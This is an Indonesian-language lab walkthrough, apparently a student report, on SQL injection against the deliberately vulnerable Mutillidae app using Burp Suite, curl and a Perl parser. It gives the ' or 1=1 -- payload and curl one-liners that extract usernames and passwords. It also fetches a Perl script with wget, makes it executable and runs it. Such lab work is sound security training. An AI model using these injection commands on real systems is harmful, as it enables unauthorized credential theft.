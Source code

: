 # Lesson 7 : SQL Injection, Burpsuite, cURL, Perl Parser

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - **OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Configure Firefox Proxy Settings
1. View Preferences
   - **Edit --> Preferences**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/preferences.png "Home page")
2. Advanced Settings
   - Pilih Menu **Advanced**
   - Pilih **Network** Tabs
   - Pilih **Settings**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan **Manual proxy**
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, kemudian Close
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke **8080** seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn off intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off (**intercept is off**), jika dalam keadaan on maka set ke off
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection: Obtain Userlist (Method #1)
1. Obtain Userlist Without Password
   - Pada kolom textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/true.png "Home page")
2. View Results
	- Halaman selanjutnya akan memuat kumpulan data table account yang berupa **username**, **password** dan **signature**
	- Perhatikan string yang ada pada url yang di hightlight `'+or+1%3D1--+`
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/result.png "Home page")
3. View Post Data (With Burp Suite)
   - Klik pada Tab **Proxy**
   - Klik pada Tab **History**
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab **Request**
   - Klik pada Tab **Raw**
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan
   - Perbedaan string tersebut dengan string yang sebelumnya adalah %27 setelah single quote(')
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/data_raw.png "Home page")
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File" 
4. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies2.txt**
   - Klik tombol **Save**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/save_raw.png "Home page")

## Simulate CURL SQL Injection: (Method #2)
1. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
   ```bash
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/run_curl.png "Home page")

## Perl Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep "Username=" > lesson7.txt
   cat lesson7.txt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/cat_lesson.png "Home page")

## Download Parser
   - Jalankan perintah berikut pada terminal :
   ```bash
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
   mv lesson7.pl.TXT lesson7.pl
   chmod 700 lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/download_perl.png "Home page")

## Run Perl Script
   - Jalankan perintah berikut pada terminal :
   ```bash
   ./lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/run_perl.png "Home page")